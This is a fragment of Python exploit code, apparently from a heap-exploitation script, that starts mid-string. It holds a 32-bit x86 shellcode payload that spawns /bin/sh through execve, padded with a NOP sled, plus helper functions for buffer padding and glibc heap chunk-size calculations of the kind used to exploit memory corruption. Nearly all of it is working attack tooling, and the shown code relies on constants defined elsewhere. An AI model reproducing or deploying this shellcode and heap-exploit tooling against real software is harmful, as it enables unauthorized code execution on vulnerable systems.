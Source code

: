 ```python
c
'''

SHELLCODE = '''
.byte 0x00
START:
nop
nop
nop
nop
nop
mov ebx, {0}
xor ecx, ecx
xor edx, edx
push 0x0b
pop eax
int 0x80

BIN_SH:
.ascii "/bin/sh"
.byte 0x00

.rept 26
nop
.endr
jmp START
'''


def unsigned(n, bitness=32):
    if n < 0:
        n = n + 2**bitness
    return n

def pad(buf, alignment, delimiter=b'\x00'):
    if (len(buf) % alignment) == 0:
        return buf

    extra = (alignment - (len(buf) % alignment)) * delimiter
    return buf + extra

def splitted(buf, n):
    for i in range(0, len(buf), n):
        yield buf[i: i + n]

def chunkSize(alloc_size):
    assert(alloc_size >= 0)
    min_size = alloc_size + SIZEOF_PTR
    res = min_size % (2 * SIZEOF_PTR)
    pad = (2 * SIZEOF_PTR) - res if res else 0
    return min_size + pad

def chunkSizeNoFlags(chunk_size):
    if IS_32_BIT:
        result = (chunk_size >> 3) << 3
    else:
        result = (chunk_size >> 4) << 4
    return result 

def maxAllocSize(chunk_size):
    chunk_size = chunkSizeNoFlags(chunk_size)
    return chunk_size - SIZEOF_PTR

```